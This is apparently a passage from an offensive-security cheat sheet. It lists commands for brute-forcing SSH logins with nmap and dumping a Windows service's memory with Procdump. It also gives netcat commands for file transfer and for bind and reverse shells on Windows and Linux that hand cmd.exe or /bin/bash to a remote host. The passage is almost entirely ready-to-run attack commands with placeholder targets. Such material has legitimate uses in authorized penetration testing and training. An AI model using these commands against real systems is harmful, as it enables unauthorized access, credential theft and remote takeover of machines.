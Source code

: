 ## SSH Exploitation
Try given Username + Password combinations on SSH with nmap
```bash
nmap -p 22 --script ssh-brute --script-args userdb=userdb.lst,passdb=passdb.lst <IP>
```

## Local Windows Exploitation

### Service Exploitation
Dump full memory from service with Procdump
```cmd
.\procdump.exe -ma <PROCESS ID> <Filename>
```


# Post Exploitation

## Netcat Fun

Create netcat listener:
```
nc -nlvp <PORT>
```

Connect to port with netcat:
```
nc -nv <IP> <PORT>
```

### Filetransfer
File receiver:
```
nc -nlvp 4444 > <FILENAME>
```
File sender:
```
nc -nv <IP> <PORT> < <FILENAME>
```

### Netcat Shell
#### Bind Shell on Windows
```cmd
nc -nlvp 4444 -e cmd.exe
```
#### Bind Shell on Linux
```bash
nc -nlvp 4444 -e /bin/bash
```
#### Reverse Shell on Linux
```bash
nc -nv <IP> <PORT> -e /bin/bash
```
#### Reverse Shell on Windows
```cmd
nc -nv <IP> <PORT> -e cmd.exe
```

